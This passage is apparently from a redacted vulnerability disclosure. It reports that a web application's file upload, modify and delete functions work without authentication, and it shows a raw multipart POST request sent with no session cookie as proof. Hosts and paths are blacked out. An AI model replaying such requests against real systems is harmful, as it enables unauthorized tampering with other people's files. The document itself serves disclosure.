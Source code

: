```
				</p>
			</td>
		</tr>
		<tr>
			<td><br /> <br /></td>
		</tr>
		<tr align="center">
		</tr>
	</table>
	<script type="text/javascript">
    var MenuBar1 = new Spry.Widget.MenuBar("MenuBar1", {imgDown:"../SpryAssets/SpryMenuBarDownHover.gif", imgRight:"../SpryAssets/SpryMenuBarRightHover.gif"});
</script>
</body>
</html>

```

* The functions allow to upload, modify and to delete ████ files and can all be used completely unauthenticated. Following an example in which I upload a file; this upload function can be accessed from https://███/elist/s3html.php. Note that the request has no session cookie:

```
POST /██████████ HTTP/1.1
Host: ███
Content-Length: 899
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://█████
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryT4r0MDX8IcQqr8D9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://██████████/elist/s3html.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryT4r0MDX8IcQqr8D9
Content-Disposition: form-data; name="nNtM"

13/37
------WebKitFormBoundaryT4r0MDX8IcQqr8D9
Content-Disposition: form-data; name="oNtM"

13/37
------WebKitFormBoundaryT4r0MDX8IcQqr8D9
Content-Disposition: form-data; name="update"

2021-11-08
------WebKitFormBoundaryT4r0MDX8IcQqr8D9
Content-Disposition: form-data; name="nxtdate"

2021-12-06
------WebKitFormBoundaryT4r0MDX8IcQqr8D9
Content-Disposition: form-data; name="regionSelect"

01
------WebKitFormBoundaryT4r0MDX8IcQqr8D9
Content-Disposition: form-data; name="type"

windows
------WebKitFormBoundaryT4r0MDX8IcQqr8D9
```